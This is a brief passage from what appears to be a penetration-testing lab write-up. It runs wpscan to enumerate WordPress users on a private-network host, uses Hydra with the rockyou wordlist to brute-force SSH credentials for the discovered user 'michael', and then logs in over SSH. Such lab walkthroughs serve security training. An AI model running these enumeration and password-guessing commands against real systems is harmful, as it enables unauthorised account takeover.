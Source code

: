         - `wpscan --url http://192.168.1.110/wordpress --enumerate u`
          - We discover two user names:
            - michael
            - steven

        ![image-20210621113606815](images/offensive/wpscan.png)

        - `hydra -l michael -P /usr/share/wordlist/rockyou.txt 192.168.1.110 -t 4 ssh`

        ![hydra_ssh_michael](images/offensive/hydra_ssh_michael.png)

        - `ssh michael@192.168.1.110`
